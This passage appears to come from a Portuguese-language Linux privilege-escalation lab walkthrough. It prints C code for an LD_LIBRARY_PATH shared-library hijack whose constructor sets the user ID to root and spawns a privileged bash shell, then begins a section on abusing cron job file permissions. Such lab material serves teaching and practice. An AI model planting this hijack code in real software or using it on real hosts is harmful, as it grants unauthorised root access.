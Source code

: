 Avaliando o código fonte do arquivo library_path.c:

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
Para que seja possível chamar qualquer lib, basta alterar o código para:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

### Questões:

- a. ***Read and follow along with the above.*** *Não há necessidade de resposta*

## 8 - Cron Jobs - File Permissions

Cron jobs são programas ou scripts que os usuários podem agendar para serem executados em horários ou intervalos específicos. Os arquivos de tabela cron (crontabs) armazenam a configuração para tarefas cron. O crontab de todo o sistema está localizado em /etc/crontab.

Veja o conteúdo do crontab de todo o sistema:

```shell
cat /etc/crontab
```
![cat crontab](images/cat_crontab.png)
